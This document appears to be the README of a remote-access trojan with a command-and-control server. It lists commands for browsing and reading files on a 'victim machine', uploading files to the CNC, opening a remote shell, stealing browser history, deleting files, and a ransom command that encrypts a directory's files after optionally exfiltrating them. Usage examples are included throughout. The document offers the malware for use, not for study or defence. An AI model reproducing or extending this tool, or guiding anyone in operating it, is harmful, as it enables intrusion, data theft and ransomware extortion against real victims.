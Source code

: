 The following commands are available:

- help: shows this message
- [dir] --walk: walks to the chosen directory
- --back: walks to the parent directory
- [file] --read: reads the contents of the file
- --upload: uploads the file from the victim machine to the CNC
- --power: makes a shell to execute commands remotely from the CNC
- --ipconfig: shows the IP configuration
- --whoami: tells you what the current working directory is
- --cd| [drive='drive name, for example D:']: change directory
- [file or dir] --remove: deletes the chosen file or directory
- --mkdir | [name='folder name, for example TESTFOLDER']: makes a directory
- --mkfile | [name='file name with extension, for example test.txt']: makes a file
- [file] --write | [text='text to write', mode='file mode, for example a,wb,w,r,etc.']: writes to a file
- --browser_history | [browser='browser name, for example brave']: steals the browser's history
- --ransom | [msg='the ransom message', upload='true to upload files before encrypting or false otherwise']: encrypts all files in the directory and leaves a message for the victim

Example usage:

- To walk to the directory 'Documents':
    ```
    Documents --walk
    ```
- To read the contents of the file 'example.txt':
    ```
    example.txt --read
    ```

- To write the text 'Hello, World!' to the file 'example.txt' in append mode:
    ```
    example.txt --write text='Hello, World!' mode='a'
    ```

- To delete the directory or file 'test' in the current directory:
    ```
    test --remove
    ```
- To return to the parent directory:
    ```
    --back
    ```
- To upload a file or directory 'Example':
    ```
    Example --upload    OR  Example.txt --upload   
    
    ```
- To show the ipconfig in a text editor cnc side:
    ```
    --ipconfig
    ```
- To change the drive you are in:
    ```
    --cd|drive=DRIVE_NAME
    ```
- To make a new directory:
    ```
    --mkdir|name=DIR_NAME
    ```
- To make a new file:
    ```
    --mkfile|name=filename.extension
    ```
- To see the cwd:
    ```
    --whoami
    ```
- To steal the browser history and save it in the cnc:
    ```
    --browser_history|browser=brave or chrome or edge
    ```
- To corrupt all files in the cwd and add a message for the victim as a ransom:
    ```
    --ransom|msg=RANSOME_MESSAGE  upload=true or false    
    uplaod param will send all the files to your cnc before it corrupts it  
    ```
-- To see the full commands (not all are listed here):
    ```
    --help
    ```
